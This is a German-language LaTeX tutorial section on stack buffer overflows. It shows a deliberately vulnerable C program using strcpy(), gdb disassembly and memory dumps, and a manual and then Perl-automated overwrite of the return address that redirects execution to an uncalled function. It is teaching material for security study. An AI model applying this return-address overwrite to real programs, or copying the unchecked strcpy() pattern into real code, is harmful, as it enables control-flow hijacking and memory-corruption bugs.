\subsection{Binäre Anwendungen}	

\subsubsection{Buffer-Overflow Schwachstellen}	

Buffer-Overflows Schwachstellen entstehen im Regelfall durch die Verwendung von Programmiersprachen, die es einem Entwickler ermöglichen, allozierte Speicherbereiche unkontrolliert zu überschreiben.
\par\medskip 
Als ein typischer Vertreter für eine Programmiersprache die potentiell für Buffer-Schwachstellen anfällig ist, gilt die Programmiersprache C. Die Programmiersprache ermöglicht es einem Entwickler, nahezu beliebige Speicheradressen zu überschreiben und bietet darüber hinaus noch zahlreiche eigene, native C-Funktionen (z.B. \texttt{strcpy()}), die unabhängig vom Entwickler keinerlei Prüfungen in Hinsicht auf den benötigten Speicherplatz implementiert haben.
\\\\
\textbf{Beispiel: Stack-Overflow (Setup: x64-System, Linux, gcc-4.8.1)}
\\
Der C-Code im folgenden Beispiel erwartet die Eingabe einer beliebigen Zeichenkette mit einer maximalen Länge von 64 Zeichen als Kommandozeilenparameter. Die im Code verwendete C-Funktion \texttt{strcpy()} gilt als unsicher, da keine Längenprüfung des zu kopierenden Strings vorgenommen wird. Mithilfe der \texttt{strcpy()}-Funktion ist es später möglich, die Rücksprungadresse der \texttt{go()}-Funktion so zu modifizieren, dass die im Code nicht aufgerufene Funktion \texttt{pwnd()} ausgeführt wird.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int go(char *input) {
        char data[64];
        strcpy(data,input);
        printf ("String: %s\n", data);
        return 1;
}

void pwnd(void) {
        printf("\nPWND!\n");
        exit(0);
}

int main(int argc, char *argv[]) {
        if (argc > 1)
        go(argv[1]);
}
\end{lstlisting}

\begin{figure}[htbp]
 \centering
 
\includegraphics[scale=.5]{abbildungen/poc_1}
 \caption{Reguläre Funktionsweise des Programms}
 \label{fig:poc_1} 
\end{figure}

Im Folgenden wird das Programm analysiert und versucht, durch eine erfolgreiche Modifikation der Speicheradressen die Funktion \texttt{pwnd()} aufzurufen.
Um das Programm zu analysieren wird der GNU Debugger\footnote{http://www.gnu.org/software/gdb} (GDB-Kurzreferenz\footnote{http://beej.us/guide/bggdb}) verwendet. Für einen ersten Überblick werden die drei Funktionen disassembliert.
\\
\\
\texttt{main()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[florian@audit exploit]$ gdb -q poc
Reading symbols from /home/florian/exploit/poc...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400624 <+0>:     push   %rbp
   [...]
   0x000000000040063d <+25>:    add    $0x8,%rax
   0x0000000000400641 <+29>:    mov    (%rax),%rax
   0x0000000000400644 <+32>:    mov    %rax,%rdi
   0x0000000000400647 <+35>:    callq  0x4005d0 <go>
   0x000000000040064c <+40>:    leaveq
   0x000000000040064d <+41>:    retq
End of assembler dump.
\end{lstlisting}
\texttt{go()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas go
Dump of assembler code for function go:
   [...]
   0x00000000004005e0 <+16>:    lea    -0x40(%rbp),%rax
   0x00000000004005e4 <+20>:    mov    %rdx,%rsi
   0x00000000004005e7 <+23>:    mov    %rax,%rdi
   0x00000000004005ea <+26>:    callq  0x400480 <strcpy@plt>
   0x00000000004005ef <+31>:    lea    -0x40(%rbp),%rax
   0x00000000004005f3 <+35>:    mov    %rax,%rsi
   0x00000000004005f6 <+38>:    mov    $0x4006d4,%edi
   0x00000000004005fb <+43>:    mov    $0x0,%eax
   0x0000000000400600 <+48>:    callq  0x4004a0 <printf@plt>
   0x0000000000400605 <+53>:    mov    $0x1,%eax
   0x000000000040060a <+58>:    leaveq
   0x000000000040060b <+59>:    retq
End of assembler dump.
\end{lstlisting}
\texttt{pwnd()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]
\end{lstlisting}
\par\medskip 
Aus den disassemblierten Funktionen können folgende Informationen entnommen werden:
\\
\textbf{\texttt{main()}-Funktion}

\begin{itemize}
      \item \texttt{0x0000000000400647 <+35>:    callq  0x4005d0 <go>}\\
        An dieser Stelle wird durch einen \texttt{call} die Funktion \texttt{go()} aufgerufen.
      \item \texttt{0x000000000040064c <+40>:    leaveq}\\
        Wurde die \texttt{go()}-Funktion erfolgreich durchlaufen, wird aus der \texttt{go()}-Funktion an diese Speicheradresse in die \texttt{main()}-Funktion zurückgesprungen.       
\end{itemize}
\textbf{\texttt{go()}-Funktion}

\begin{itemize}
      \item \texttt{x00000000004005ef <+31>:    lea    -0x40	(\%rbp), \%rax}\\
        Aufgrund des vorhandenen C-Code ist bereits bekannt, dass für die \texttt{strcpy()}-Funktion ein \SI{64}{Byte} großes Charakter-Array (\texttt{char data[64]}) als Ziel des Kopiervorgangs reserviert wurde. Läge der C-Code nicht vor, könnte man durch den hexadezimalen Wert \texttt{0x40} die maximale Speichergröße von \SI{64}{Byte} feststellen.        
      \item \texttt{0x000000000040060b <+59>:    retq}\\
        Nach der Ausführung dieser Instruktion muss der Befehlszeiger (IP, bei x64 RIP abgekürzt) auf die Speicheradresse \texttt{0x40064c} innerhalb der \texttt{main()}-Funktion zeigen.
\end{itemize}



\textbf{\texttt{pwnd()}-Funktion}

\begin{itemize}
      \item \texttt{0x000000000040060c <+0>:     push   \%rbp}\\
        Um die \texttt{pwnd()}-Funktion aus der \texttt{pwnd()}-Funktion heraus aufrufen zu können, muss der Befehlszeiger (RIP) innerhalb der \texttt{go()}-Funktion auf die Speicheradresse \texttt{0x40060c} geändert werden. 
\end{itemize}

Im Folgenden wird das Programm mit dem GDB gestartet, davor wird noch ein Haltepunkte an der Speicheradresse \texttt{0x40060b} gesetzt (siehe letzte Zeile der disassemblierten \texttt{go()} -Funktion) um die Überlegungen verifizieren zu können.
        
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
gdb) break *0x40060b
Breakpoint 6 at 0x40060b: file poc.c, line 13.
(gdb) run AAAAAAAA

String: AAAAAAAA

Breakpoint 6, 0x000000000040060b in go (input=0x7fffffffecdb "AAAAAAAA") at poc.c:13
13      }
(gdb) p &data
$20 = (char (*)[64]) 0x7fffffffe950
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb)
\end{lstlisting}

Das Programm wird mit 8-mal "A" als Konsolenparameter gestartet. Ist der Haltepunkte erreicht, wird der \SI{64}{Byte} große Speicherbereich der Variablen \texttt{data} gesucht. Im Anschluss werden vom Beginn des Speicherbereichs der Variablen \texttt{data} 12-mal \SI{8}{Byte} große Speicherbereiche dargestellt. 

Die ersten \SI{8}{Byte} entsprechen der hexadezimalen Darstellung der Zeichenfolge \texttt{AAAAAAAA}, die als Übergabeparameter verwendet wurde. Die folgenden 7-mal \SI{8}{Byte} großen Speicherblöcke werden nicht verwendet und beinhalten ausschließlich zufällige Werte. Um die Rücksprungadresse erfolgreich zu modifizieren, sind die folgenden \SI{8}{Byte} bzw. \SI{16}{Byte} relevant:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
\end{lstlisting}

Der linke Teil entspricht dem Basepointer (RBP), der rechte Teil entspricht der Rücksprungadresse in die \texttt{main()}-Funktion. Wird diese Adresse mit der Speicheradresse der \texttt{pwnd()}-Funktion überschrieben, so springt das Programm zur Laufzeit in die \texttt{pwnd()}-Funktion und führt diese aus.
 
Mit den folgenden Befehlen wird die \texttt{go()}-Funktion disassembliert, um die Startwert der \texttt{go()}-Funktion festzustellen. Im Anschluss werden die 12-mal \SI{8}{Byte} großen Speicheradressen ausgegeben und zwei Byte der Rücksprungadresse \texttt{0x40064c} modifiziert. Danach wird das Programm weiter ausgeführt und wie springt in die \texttt{pwnd()}-Funktion.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]	

End of assembler dump.
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) set {char}0x7fffffffe998 = 0x0c
(gdb) set {char}0x7fffffffe999 = 0x06
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040060c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) c
Continuing.
PWND!
[Inferior 1 (process 1190) exited normally]
(gdb)
\end{lstlisting}

Um den Aufwand einer manuellen Modifikation der Speicheradresse möglichst gering zu halten, kann man den Vorgang mit der \texttt{Perl} automatisieren:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) run `perl -e 'print "A"x72 . "\x0c\x06\x40"'`
String: AAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAA@
PWND!
[Inferior 1 (process 1624) exited normally]
(gdb)
\end{lstlisting}

Dabei werden insgesamt \SI{72}{Byte} mit dem Zeichen \texttt{A} überschrieben und \SI{3}{Byte} mit hexadezimalen Werten:

\begin{itemize}
      \item \SI{64}{Byte} Speicherplatz der \texttt{data}-Variablen    
      \item \SI{8}{Byte} Basepointer
      \item \SI{3}{Byte} Rücksprungadresse unter Berücksichtigung der Byteorder (Little-Endian)
\end{itemize}

\textbf{Hinweis:}

Wird zur Nachstellung des Beispiels ein veralteter \texttt{gcc}-Compiler in der Version 3.x\footnote{http://www.trapkit.de/papers/gcc\_stack\_layout\_v1\_20030830.pdf} verwendet, ist es möglich, dass dieses Beispiel nicht funktioniert!